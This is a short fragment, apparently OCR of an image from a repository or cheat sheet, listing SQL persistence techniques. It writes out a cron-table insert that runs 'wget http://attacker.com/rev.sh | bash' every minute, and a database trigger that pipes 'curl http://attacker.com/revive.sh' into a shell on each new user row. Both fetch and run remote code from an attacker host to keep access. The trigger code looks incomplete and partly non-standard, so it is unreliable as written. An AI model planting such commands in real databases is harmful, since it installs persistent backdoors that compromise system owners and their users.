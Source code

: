 Inject into Cron Job Table
  INSERT INTO cron_jobs (command, schedule) VALUES ('wget http://attacker.com/rev.sh | bash', '* * * * *');

Create a DB Trigger for Auto-Reexecution
  CREATE TRIGGER persist AFTER INSERT ON users
  FOR EACH ROW BEGIN
  CALL system('curl http://attacker.com/revive.sh | sh');